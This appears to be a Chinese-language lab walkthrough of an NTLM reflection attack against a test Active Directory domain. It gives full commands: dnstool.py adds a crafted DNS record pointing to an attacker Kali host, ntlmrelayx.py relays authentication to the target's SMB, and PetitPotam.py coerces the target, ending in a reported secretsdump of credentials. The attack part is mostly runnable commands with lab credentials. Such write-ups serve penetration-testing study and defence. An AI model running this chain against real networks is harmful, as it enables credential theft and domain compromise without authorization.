







- 域：v.com
- 域控：10.10.10.135
- 攻击者机器：10.10.10.153(kali)
- 攻击目标： accatk.v.com (10.10.10.138)
- 普通域用户：0617

## 手工

- 创建一个特殊DNS记录，指向攻击者的机器10.10.10.153(kali)

```
dnstool.py -u 'v.com\0617' -p '111111aA!' 10.10.10.135 -a add -d 10.10.10.153 -r 'localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA'

```



- 验证dns记录

```
python3 dnstool.py -u "v.com\0617" -p "111111aA!" 10.10.10.135 -r localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA --action query -d 10.10.10.153
```



也可以dig



- 进行监听，攻击目标机器

```
ntlmrelayx.py -t "smb://accatk" -smb2support -ts
```

- 进行强制触发，让目标机器向指定DNS记录进行NTLM认证

```
PetitPotam.py -d v.com -u 0617 -p '111111aA!' localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA accatk
```



- 成功secretsdump



## 排错

`nTSecurityDescriptor`可以看到谁对这条dns记录有管理权限,有管理权限的用户可以在此直接修改记录




